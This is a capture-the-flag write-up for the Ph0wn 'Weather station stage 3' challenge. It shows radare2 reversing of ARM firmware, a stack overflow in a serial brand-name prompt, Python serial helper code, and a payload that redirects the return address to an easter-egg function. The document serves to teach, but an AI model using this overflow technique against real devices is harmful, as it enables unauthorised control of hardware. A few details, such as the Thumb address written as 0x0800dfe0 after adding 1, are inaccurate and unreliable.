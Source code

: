 # Ph0wn CTF: Weather station stage 3

**Category**: Exploit, **Points**: 300, **Solves**: 1

## Description

Now you can play with the OEM setup menu. Someone told me developers are eternal kids. They've include an easter egg when Winter Is Coming. Just found it in the firmware, find a way to call it and see what happen on screen.

Advice 1: The serial function is a little buggy, you should send your payload by packet of 16 bytes, and do a little 10ms pause, and then continue sending the next chunk.

Advice 2 : The firmware is provided in .elf and .bin format. It's the same version, it's up to you to use your preferred format, but a strong advice is to use the .elf file.

Advice 3: The function at @ 0x800CA88 is only here to hide the flag. Solve this task will never ask you to reverse this complex obfuscation function. If you do, you'll lose time and all the interest of the challenge.

To score this challenge please enter a flag in the form of `Ph0wn{xxxxx}`.

Author: Phil


## Write-up

### Testing brand menu

Once stage 2 is completed, we access a hidden OEM menu, where we can change temperature unit for the weather station, pressure unit, or the display name on the top of the screen.

```
************************
**** OEM Setup Menu ****
************************
-1- Setup Temperature Unit.
-2- Setup Pressure Unit.
-3- Setup Brand Name.
```

If we select `Setup Brand Name`, we end up into another menu:

```
**************************
**** Brand Name Setup ****
**************************

-1- eSAME manufacturer.
-2- Fortinet manufacturer.
-3- GreHack manufacturer.
-4- Custom

-0- Exit to main
```    

The first 3 choices setup a pre-defined manufacturer for the weather station. The last one is more interesting because we can customize the manufacturer's name.
The manufacturer's name is said to be limited to 8 characters, but if we enter more we crash the weather station:

```
Enter a new manufacturer name (MAX 8 chars !) : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
***      CRASH      ***
SP = 0x20017e87
*** Program Stopped ***
```

Exactly, the crash occurs as soon as we enter the 37th `a`. We get the address of the Stack Pointer. So, probably, we overwrote part of the stack with our `a`. This is something to exploit.

### Reversing brand menu

Let's have a look at the function that gets the manufacturer's name.

We locate the string `Enter a new manufacturer name (MAX 8 chars !) `

```
[0x0800f520]> f~manu
0x08015cd0 115 str._1__eSAME_manufacturer._r_n_2__Fortinet_manufacturer._r_n_3__GreHack_manufacturer._r_n_4__Custom._r_n_r_n_0__Exit_to_main._r_n
0x08015d44 51 str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____:
0x08015cd0 114 str._1__eSAME_manufacturer.___2__Fortinet_manufacturer.___3__GreHack_manufacturer.___4__Custom._____0__Exit_to_main.
0x08015d44 50 str.Enter_a_new_manufacturer_name__MAX_8_chars____:
```

It is used by `0x800d8f8`, which is inside a function starting at `0x0800d8bc`:

```
[0x0800f520]> axt str.Enter_a_new_manufacturer_name__MAX_8_chars____:
(nofunc) 0x800da10 [null] ldrb r4, [r0, r5]
(nofunc) 0x800d8f8 [data] ldr r5, str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____:
...
[0x0800f520]> s 0x800d8f8
[0x0800d8f8]> pd 20
            0x0800d8f8      454d           ldr r5, str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____: ; [0x8015d44:4]=0x6e450a0d ; "\r\nEnter a new manufacturer name (MAX 8 chars !) : "
            0x0800d8fa      0fcd           ldm r5!, {r0, r1, r2, r3}
```

Basically, this is how the function works:

![](./graph-overview.png)

1. It reads selection for brand menu (between 0 and 4)
2. In the case we select 4 (custom brand), it reads the custom name character by character, waiting for a 0x0D character (carriage return).  This is incorrect because we can specify far more than 8 characters...
3. It sets the brand name

### Winter function

The challenge description mentions `Winter Is Coming`. This string is located at `0x08015e54` and it is used in function `fcn.0800dfe0`

```
[0x0800f520]> f~Winter
0x08015e54 19 str.Winter_Is_Coming
[0x0800f520]> axt 0x08015e54
fcn.0800dfe0 0x800e032 [data] ldr r0, str.Winter_Is_Coming
```

So, we want to craft a long custom brand name, which will overwrite the stack, and in particular LR, so that when we return from brand name setup, we jump to `fcn.0800dfe0`.

### Writing a program that pilots the weather station

We need to:

1. Connect to the weather station's serial port
2. Unlock the OEM menu by specifying the password we found at stage 2
3. Select the brand menu
4. Select the setup of a custom brand name
5. Enter a special custom brand name (exploit)
6. Return from the function

We implement a program to do this.
To connect to the weather station's serial port, we import `serial` and specify the connection setup:

```python

ser = serial.Serial(
    port='/dev/ttyUSB0',
    baudrate=19200,
    timeout=3 # wait up to 3 seconds to read info
)

ser.isOpen()
```

Then, basically, we need to read data from the serial port. I implemented a function that reads characters from the serial port until it reaches a given keyword. For instance, when we read the keyword 'Password:' we know it is time to provide the password found at stage 3.

```python
def readUntil(keywords, debug=False):
    '''Read until we find one of the keywords, 
    Then we print what we got, stop reading, and return the message
    
    keywords is a list of words: [ 'Password' ]
    '''
    out = ''
    while True:
        c = ser.read(1)
        out = out + c
        if debug:
            print c
        for keyword in keywords:
            if keyword in out:
                print out
                print '[+] Located %s ' % (keyword)
                return out, keyword
        if ser.inWaiting() <= 0:
            print '[-] Sleeping 1 sec'
            time.sleep(1)
```

We also need to write back to the serial connection. As mentioned in the description, it can be a bit buggy, we need not to write too fast.

```python
def writeNotTooQuick(message, timeout=0.2, debug=False):
    for i in range(0, len(message)):
        ser.write(message[i])
        if debug:
            print "[+] writing: %s" % (message[i])
        time.sleep(timeout)
```

Using both `readUntil` and `writeNotTooQuick`, we make our way to the point where we need to enter the custom brand name. That's the point where we need to craft the right brand name.

#### Crafting the exploit

We know that the weather station crashes on the 37th character - point where we have overwritten the Stack Pointer. In ARM architectures, the Link Register (which carries the return address to go to) is before the SP.
We could compute exactly the right buffer to send, but we're going to try several buffers until we succeed. The idea is to send a buffer containing:

`XXXXXXXXXXXXXADDR\r`

where X is whatever we wish (the first 8 characters will be displayed as brand name on the weather station), and ADDR is the 4 byte address to jump to and `\r` is carriage return (mandatory to mention we've finished entering the brand name).

We want to jump to a function at `0x0800dfe0`. In Thumb mode, we have to jump to that address + 1: `0x0800dfe0`. So, the buffer will end with `\xe1\xdf\x00\x08` and `\x0d`.

My program sends precisely `OVERFLOWaaaaa...aaa\xe1\xdf\x00\x08\r` where the number of `a` is configurable.
If the number of `a` is really to short, this does nothing.
If the number of `a` is getting closer or badly aligned, we overwrite part of the stack, but don't jump to the function we want to.
When the number of `a` is just fine (16), we trigger the call to the winter is coming function.

![](./soluce-stage3.jpg)

The flag is `Ph0wn{P0werOfSt@ckSmashing}`

## Other write-ups and resources

Resources:
- [Smashing the ARM stack](https://www.merckedsecurity.com/blog/smashing-the-arm-stack-part-1)
- [ARM subroutines & program stack](http://www.toves.org/books/armsub/)


